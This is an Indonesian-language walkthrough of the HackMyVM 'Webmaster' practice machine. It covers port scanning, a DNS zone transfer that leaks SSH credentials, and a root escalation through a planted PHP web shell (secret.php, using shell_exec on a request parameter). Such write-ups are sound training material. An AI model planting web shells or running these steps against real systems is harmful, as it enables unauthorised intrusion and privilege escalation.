 ```yaml
---
layout: Post
title: HackMyVM - Webmaster Writeup
date: 2021-10-18 16:57 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/webmaster.zip">Webmaster</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/x6cx61x63x61x73">sml</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialah scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/Webmaster]
└─$ nmap -A 192.168.0.85
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-18 16:48 WIB
Nmap scan report for webmaster.hmv (192.168.0.85)
Host is up (0.00052s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7e:d2:d5:d0:45:36:d7:c9:ed:3e:1d:5c:86:fb:e4 (RSA)
|   256 04:9d:9a:de:af:31:33:1c:7c:24:4a:97:38:76:f5:f7 (ECDSA)
|_  256 b0:8c:ed:ea:13:0f:03:2a:f3:60:8a:c3:ba:68:4a:be (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.91%I=7%D=10/18%Time=616D42F6%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\
SF:x04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curre
SF:ntly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP
Oke next ku buka websitenya, ternyata terdapat dns `webmaster.hmv`. Oleh karena itu ku coba dig dan akhirnya mendapatkan password dan user SSH :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/Webmaster]
└─$ dig axfr @192.168.0.85 webmaster.hmv 

; <<>> DiG 9.16.15-Debian <<>> axfr @192.168.0.85 webmaster.hmv
; (1 server found)
;; global options: +cmd
webmaster.hmv.		604800	IN	SOA	ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
webmaster.hmv.		604800	IN	NS	ns1.webmaster.hmv.
ftp.webmaster.hmv.	604800	IN	CNAME	www.webmaster.hmv.
john.webmaster.hmv.	604800	IN	TXT	"****************" -> Password and User SSH
mail.webmaster.hmv.	604800	IN	A	192.168.0.12
ns1.webmaster.hmv.	604800	IN	A	127.0.0.1
www.webmaster.hmv.	604800	IN	A	192.168.0.11
webmaster.hmv.		604800	IN	SOA	ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
;; Query time: 0 msec
;; SERVER: 192.168.0.85#53(192.168.0.85)
;; WHEN: Mon Oct 18 16:50:48 WIB 2021
;; XFR size: 8 records (messages 1, bytes 274)
```

# SSH

Oke selanjutnya ku coba login SSH dan dapatlah `user.txt` :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/Deba]
└─$ ssh john@192.168.0.85                    
john@192.168.0.85's password: 
Linux webmaster 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec  5 05:38:56 2020 from 192.168.1.58
john@webmaster:~$ ls
flag.sh  user.txt
john@webmaster:~$ cat user.txt 
HMV*****
john@webmaster:~$
```

Oke pas ku coba sudo -l ternyata terdapat di nginx oleh karena itu ku buat shell_exec untuk dapetin shell_rootnya :

```console
john@webmaster:/var/www/html$ cat secret.php 
<?php
	echo shell_exec($_REQUEST['page']);
?>
john@webmaster:/var/www/html$ 
```

And boom ku dapet shell root dan `root.txt` :

```console
root@webmaster:/var/www/html# export TERM=xterm
root@webmaster:/var/www/html# cd
root@webmaster:~# ls
flag.sh  root.txt
root@webmaster:~# cat root.txt 
HMV*********
root@webmaster:~# exit
```
